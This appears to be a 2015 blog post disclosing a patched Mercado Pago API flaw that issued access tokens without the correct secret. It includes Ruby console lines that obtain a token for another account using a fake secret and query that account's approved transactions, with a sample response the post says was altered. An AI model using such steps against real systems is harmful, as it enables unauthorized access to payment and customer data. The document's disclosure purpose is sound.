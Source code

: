 ```yaml
---
layout: post
title: "Mercado Pago Security Hole"
date: 2015-07-14 23:29:00
categories: ["security"]
author: etagwerker
---
```


On April 17th we discovered a security vulnerability in the [Mercado Pago API](https://www.mercadopago.com.ar/developers/en/api-docs/). Before disclosing this information, we contacted [Mercado Libre](http://www.mercadolibre.com/) and sent them a detailed report of the security hole and how to reproduce it.

The vulnerability allowed anyone to get an access token without using the right secret for an account.

<!--more-->

You can see how the authentication process works on Mercado Pago over here: [https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/](https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/)

After 7 hours, Mercado Pago fixed the vulnerability in their production environment.

## How we reproduced the bug

This example uses Ruby 2.1.2 and the [mercadopago](https://rubygems.org/gems/mercadopago) gem.

    2.1.2 :001 > token = MercadoPago::Authentication.access_token("8872", "lalalala")

The first parameter is the client id (an account in Mercado Pago) and the second parameter is the secret (only the account holder should know this)

For client id we used `8872` which doesn't belong to us and for secret we used `lalalala` to show that it wasn't really *the right secret.*

With that information, we were able to acquire the token. With it you can access a lot of information associated with the payments in the account.

For example:

```ruby
2.1.2 :002 > response = MercadoPago::Collection.search(token["access_token"], status: :approved)
```

With this query, you could see all the approved transactions for an account **that didn't belong to you**.

For example:

```ruby
=> {"paging"=>{"total"=>98, "limit"=>30, "offset"=>0},
    "results"=>[
      {"collection"=>{"id"=>753859418, "site_id"=>"MLA",
       "date_created"=>"2014-03-13T16:58:20.000-04:00",
       "date_approved"=>"2014-03-13T17:00:38.000-04:00",
       "last_modified"=>"2014-03-13T17:00:38.000-04:00",
       "money_release_date"=>"2014-03-15T17:00:38.000-04:00",
       "operation_type"=>"regular_payment",
       "collector_id"=>16605960, "sponsor_id"=>nil,
       "payer"=>{
         "nickname"=>"XOMBULABSX",
         "first_name"=>"JON",
         "last_name"=>"SNOW",
         "phone"=>{"area_code"=>"291", "number"=>"123412", "extension"=>nil},
         "email"=>"security@ombulabs.com",
         "id"=>83110350,
         "identification"=>{"type"=>nil, "number"=>nil}},
         "external_reference"=>"1448",
         "merchant_order_id"=>11567450,
         "reason"=>"Premium package", "currency_id"=>"ARS",
         "transaction_amount"=>81, "total_paid_amount"=>81,
         "shipping_cost"=>0,
         "account_money_amount"=>0,
         "mercadopago_fee"=>4.85,
         "net_received_amount"=>76.15,
         "marketplace_fee"=>nil,
         "coupon_id"=>nil,
         "coupon_amount"=>nil,
         "coupon_fee"=>nil,
         "finance_fee"=>0,
         "status"=>"approved",
         "status_detail"=>"accredited",
         "status_code"=>"00",
         "released"=>"yes",
         "payment_type"=>"credit_card",
         "installments"=>1,
         "installment_amount"=>nil,
         "deferred_period"=>nil,
         "cardholder"=>{"name"=>"JON SNOW", "identification"=>{"type"=>"DNI", "number"=>"26000000"}},
         "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
         "transaction_order_id"=>nil, "marketplace"=>"NONE", "tags"=>[],
         "notification_url"=>nil}},
      {"collection"=>
        {"id"=>756415807,
        "site_id"=>"MLA",
        "date_created"=>"2014-03-20T15:42:35.000-04:00",
        "date_approved"=>"2014-03-20T15:42:35.000-04:00",
        "last_modified"=>"2014-03-20T15:42:35.000-04:00",
        "money_release_date"=>"2014-03-22T15:42:35.000-04:00",
        "operation_type"=>"regular_payment",
        "collector_id"=>16605960,
        "sponsor_id"=>nil,
        "payer"=>{
          "nickname"=>"YOURNICKNAME",
          "first_name"=>"Matias",
          "last_name"=>"OMBU",
          "phone"=>{"area_code"=>"291", "number"=>"4000000", "extension"=>nil},
          "email"=>"hola@ombulabs.com",
          "id"=>18878708,
          "identification"=>{"type"=>nil, "number"=>nil}},
        "external_reference"=>"1457",
        "merchant_order_id"=>13031193,
        "reason"=>"Premium package",
        "currency_id"=>"ARS",
        "transaction_amount"=>81,
        "total_paid_amount"=>81,
        "shipping_cost"=>0,
        "account_money_amount"=>0,
        "mercadopago_fee"=>4.85,
        "net_received_amount"=>76.15,
        "marketplace_fee"=>nil,
        "coupon_id"=>nil,
        "coupon_amount"=>nil,
        "coupon_fee"=>nil, "finance_fee"=>0,
        "status"=>"approved",
        "status_detail"=>"accredited",
        "status_code"=>"00",
        "released"=>"yes",
        "payment_type"=>"credit_card",
        "installments"=>1,
        "installment_amount"=>nil,
        "deferred_period"=>nil,
        "cardholder"=>
          {"name"=>nil,
           "identification"=>{"type"=>nil, "number"=>nil}},
        "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
        "transaction_order_id"=>nil,
        "marketplace"=>"NONE",
        "tags"=>[],
        "notification_url"=>nil}},
        ...
      }
```

*The sensitive information in this code snippet has been intentionally changed*

So, during the time that this vulnerability was live (at least 7 hours) an attacker could have used it to:

* Find information about all the payments that your account had received since you started using the service

* Find information about your clients, their DNI, name, phone number

All the attacker needed to exploit this vulnerability was a Mercado Pago account ID and some basic tech knowledge.

## How we discovered this bug

At [OmbuShop](http://www.ombushop.com), our integration tests use the Mercado Pago sandbox to check that the amount that a client has to pay is correct. I know that this isn't ideal (or is it?) but it's as real as it gets for our integration tests.

One of our tests checked that you couldn't get collections information with the wrong user credentials. When the test started failing in our continuous tests, we started digging around and found this security hole.

## What worries me

It's hard to understand how such a big payment processor never published information about this security hole. I would expect them to know if some information was accessed by people who didn't have access to it.

They could check their access logs and see who accessed their API using a secret that wasn't the right one. Then they could inform their customers of this problem and warn them about this situation.

Mercado Pago, a product of Mercado Libre ([$MELI](http://www.nasdaq.com/symbol/meli)) which is a publicly traded company, doesn't even have public versioning information of their API nor a continuous integration suite that would catch such an obvious vulnerability.

Maybe I am just used to the security reports published by Github about [their vulnerabilities](https://github.com/blog/1068-public-key-security-vulnerability-and-mitigation). Maybe Github is way more serious than Mercado Pago about privacy and online security.

I think that Mercado Pago needs to step up their game and be more transparent about their platform and user privacy.

A good place to start would be a better way to receive security vulnerability reports and disclosing information about their security problems.

Until today, they haven't disclosed any information about this security hole and it's very hard to find a way to report a security issue to them.
